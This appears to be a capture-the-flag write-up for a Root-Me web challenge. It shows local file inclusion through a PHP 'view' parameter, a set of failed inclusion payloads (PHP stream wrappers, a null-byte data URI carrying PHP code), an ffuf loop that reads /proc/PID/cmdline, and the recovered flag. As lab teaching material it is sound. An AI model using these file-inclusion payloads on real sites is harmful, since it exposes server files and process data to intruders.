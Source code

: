 # Ech0's Secure Flag Checker

![](./img/author-antholamalice.svg) ![](./img/author-backtick.svg) ![](./img/difficulty-medium.svg) ![](./img/category.svg)

![](./img/flagchecker-desc.png)

## Investigating

![](./img/flagchecker-1.png)

The main page looks like this, with 3 links to take in account:

- **Home** that redirects us to `/?view=home.html`;

- **Application** that redirects us to `/?view=app.html`;

- **here** that redirects us to `/?view=app.html` too.

This definitely looks like a LFI. I need to confirm my doubts.

Upon reaching `/?view=../` I am greeted with this interesting message:

```
Warning: include(/var/www): failed to open stream: Success in /var/www/html/index.php on line 20

Warning: include(): Failed opening '../' for inclusion (include_path='.:/usr/local/lib/php:/proc') in /var/www/html/index.php on line 20
```

**LFI Confirmed!**

## Useless payloads

Because my writeups aren't nearly as good if I don't show how I struggle with challenges before solving them, here are a list of what didn't work (understand failed exceptionally) and gave me no clue about what I could do.

- `/proc/self/cmdline` gave me `apache2-DFOREGROUND`, thank you but that's not helpful;

- `/proc/self/environ`: 404 not found;

- `data://`, `expect://`, `php://` and other flavors that all told me to just stop trying;

- `app.html%00data://text/plain,<?php phpinfo(); ?>` to trick it into thinking it was a readable file (I suspect 404 to come when the file is not readable);
  
  ```
  Warning: is_readable() expects parameter 1 to be a valid path, string given in   /var/www/html/index.php on line 12
  ```

- `/?view[]=app.html,home.html)`;
  
  ```
  Warning: urldecode() expects parameter 1 to be string, array given in /var/www/html/index.php on line 10
  ```

- Directory listing with `ffuf`.

So far we have seen three functions that are used to prevent us from doing anything we want: `is_readable`, `urldecode` and the obvious `include`. What else could I do?

## Memory helps!

I remembered an old challenge I did (on root-me, HTB or in a CTF, I don't remember) where I had to go through all the processes in order to find what I wanted.

I used my favorite `zsh` command to see which processes had a response for `cmdline`. I excluded responses with sizes 1366, 1393 and 1515 that I found to be errors while fuzzing for directory discovery.

```bash
for i in {1..10000}
do
 # your-unix-command-here
 echo $i >> numbers
done

ffuf -w numbers -fs 1366,1393,1515 -u 'http://ctf10k.root-me.org:6002/?view=/proc/FUZZ/cmdline'
```

Process 8 responded, and when I reached to page, I saw a curious python command.

```
python3/var/www/html/flagChecker.py--flagRM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}
```

This is it! After hours of directory listing, using any existing LFI payload I could think of, I finally found it.

![](https://media.giphy.com/media/3oz8xUyx5HHd0d5qda/giphy.gif)

Flag : `RM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}`
